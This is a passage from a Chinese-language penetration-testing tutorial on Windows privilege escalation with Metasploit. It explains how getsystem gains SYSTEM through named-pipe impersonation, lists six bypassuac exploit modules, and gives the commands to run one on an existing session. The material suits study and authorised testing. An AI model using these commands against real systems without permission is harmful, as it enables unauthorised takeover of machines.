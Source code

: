 getsystem创建一个新的Windows服务，设置为SYSTEM运行，当它启动时连接到一个命名管道。

getsystem产生一个进程，它创建一个命名管道并等待来自该服务的连接。

Windows服务已启动，导致与命名管道建立连接。

该进程接收连接并调用ImpersonateNamedPipeClient，从而为SYSTEM用户创建模拟令牌。

```
命令：getsystem
```

![img](assets/wps31-1690339780493-31.jpg) 

### 4.2.3.**bypassuac提权**

内置多个pypassuac脚本，原理有所不同，使用方法类似，运行后返回一个新的会话，需要再次执行getsystem获取系统权限。

```
exploit/windows/local/bypassuac

exploit/windows/local/bypassuac_eventvwr

exploit/windows/local/bypassuac_injection

exploit/windows/local/bypassuac_injection_winsxs

exploit/windows/local/bypassuac_silentcleanup

exploit/windows/local/bypassuac_vbs
```



#### 4.2.3.1.**执行流程**

在getsystem提权失败，再利用bypassuac来提权。

```
命令：

use exploit/windows/local/bypassuac

set session 1       #选择当前会话id

run 
```

 